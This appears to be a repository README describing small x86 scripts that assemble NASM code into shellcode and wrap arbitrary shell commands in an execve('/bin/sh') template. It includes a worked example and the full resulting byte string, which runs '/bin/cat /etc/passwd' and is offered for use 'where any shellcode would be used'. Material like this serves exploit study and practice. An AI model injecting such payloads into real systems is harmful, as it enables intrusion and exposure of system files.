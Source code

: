 reversingtools - x86
====================
x86 Tools and Scripts

<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with the '\x' character in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test)
<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

<strong>Example:</strong> ./doshcommandinassembly.pl /bin/cat /etc/passwd & ./comp_and_dump.sh<br>
<strong>Output:</strong> \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80<br>
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen
